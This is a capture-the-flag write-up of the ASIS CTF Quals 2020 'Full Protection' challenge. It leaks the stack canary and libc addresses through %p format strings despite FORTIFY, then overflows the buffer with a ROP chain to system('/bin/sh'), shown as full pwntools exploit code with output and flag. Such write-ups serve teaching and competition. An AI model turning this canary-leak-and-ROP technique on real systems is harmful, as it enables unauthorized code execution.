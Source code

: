 # ASIS CTF Quals 2020

## Full Protection

> 53
> 
> Fully [protected](full_protection_distfiles_2fad32e887e961776f9b1ab9f767d004e551cf48.txz)!
>
> `nc 69.172.229.147 9002`

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _stack-canary_ _fortify_ _format-string_


## Summary

Canary leak to enable BOF, ROP, Shell.  FORTIFied.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Default `gcc` mitigations in place + FORTIFY.

    
### Decompile with Ghidra

```c
  while( true ) {
    iVar1 = readline((char *)&local_58,0x40);
    if (iVar1 == 0) break;
    __printf_chk(1,&local_58);
    _IO_putc(10,stdout);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
```

This looks a little different from your average format string exploit, e.g. `__printf_chk`:


> ### `__printf_chk`
>
> #### Name
>
> `__printf_chk` -- format and print data, with stack checking
> 
> #### Description
> 
> The interface `__printf_chk()` shall function in the same way as the interface `printf()`, except that `__printf_chk()` shall check for stack overflow before computing a result, depending on the value of the flag parameter. If an overflow is anticipated, the function shall abort and the program calling it shall exit.
>
> _Source: [https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---printf-chk-1.html](https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---printf-chk-1.html)_

To see what this does:

```
# ./chall
%p
0x7fffbb710290
%2$p
*** invalid %N$ use detected ***
Aborted

# ./chall
%n
*** %n in writable segment detected ***
Aborted
```

Bad news, classic format string exploits are off the table.  The good news is `%p` is not completely shut off:

```
# ./chall
%p %p %p
0x7ffc19b80330 0x10 0x7fb94d5a68c0
```

With the following we can leak all there is to leak:

```python
from pwn import *

binary = ELF('./chall')
libc = ELF('./libc-2.27.so')
context.update(arch='amd64',os='linux')
p = process(binary.path)

p.sendline((0x40//2 - 1) * '%p')
_ = p.recvline().strip().replace(b'(nil)',b'0x0').replace(b'0x',b' 0x').split()

for i in range(len(_)):
    print(i,_[i])
```

Output:

```
0 b'0x7fff9c24a9d0'
1 b'0x10'
2 b'0x7ffb19d178c0'
3 b'0x7ffb19f20500'
4 b'0x7025702570257025'
5 b'0x7025702570257025'
6 b'0x7025702570257025'
7 b'0x7025702570257025'
8 b'0x7025702570257025'
9 b'0x7025702570257025'
10 b'0x7025702570257025'
11 b'0x702570257025'
12 b'0x7fff9c24ab00'
13 b'0x4c49f238e3aba400'
14 b'0x0'
15 b'0x7ffb1994bb97'
16 b'0x1'
17 b'0x7fff9c24ab08'
18 b'0x100008000'
19 b'0x5594e1e9f850'
20 b'0x0'
21 b'0x5ff1227246fd1a55'
22 b'0x5594e1e9f920'
23 b'0x7fff9c24ab00'
24 b'0x0'
25 b'0x0'
26 b'0xb27d9e8e67d1a55'
27 b'0xb2ed288c4831a55'
28 b'0x7fff00000000'
29 b'0x0'
30 b'0x0'
```

> This works remotely as well.

Offset `13` looks like a canary; we'll need GDB to help figure out the rest:

```
0x00007fffffffe538│+0x0048: 0xb430df0a96bac500
0x00007fffffffe540│+0x0050: 0x0000000000000000
0x00007fffffffe548│+0x0058: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
0x00007fffffffe550│+0x0060: 0x0000000000000001
0x00007fffffffe558│+0x0068: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk/asisquals2020/full_protection/chall"
0x00007fffffffe560│+0x0070: 0x0000000100008000
0x00007fffffffe568│+0x0078: 0x0000555555554850  →  <main+0> pxor xmm0, xmm0
```

From the canary down, libc can be had from offset 15 (13+2), and `main` from offset 19 (13+6).

## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./chall')
libc = ELF('./libc-2.27.so')
context.update(arch='amd64',os='linux')

#p = process(binary.path)
p = remote('69.172.229.147', 9002)

```

Initial setup.


```python
p.sendline((0x40//2 - 1) * '%p')
_ = p.recvline().strip().replace(b'(nil)',b'0x0').replace(b'0x',b' 0x').split()

canary = int(_[13],16)
log.info('canary: ' + hex(canary))
baselibc = int(_[15],16) - libc.symbols['__libc_start_main'] - 231
libc.address = baselibc
log.info('baselibc: ' + hex(baselibc))
baseproc = int(_[19],16) - binary.symbols['main']
binary.address = baseproc
log.info('baseproc: ' + hex(baseproc))
```

First pass.  Leak as much of the stack as possible and find the canary, libc, and `main`.


```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = (0x58 - 0x10) * b'\x00'
payload += p64(canary)
payload += p64(0x0)
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

BOF with nulls, then exploit.  The first null is important so that `readline` will return a length of zero and exit the loop executing our exploit.

Output:

```
# ./exploit.py
[*] '/pwd/datajerk/asisquals2020/full_protection/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[*] '/pwd/datajerk/asisquals2020/full_protection/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 69.172.229.147 on port 9002: Done
[*] canary: 0xa2bea80616728e00
[*] baselibc: 0x7f4acc5a8000
[*] baseproc: 0x56459cae4000
[*] Loaded 19 cached gadgets for './chall'
[*] Switching to interactive mode
$ cat flag.txt
ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}
```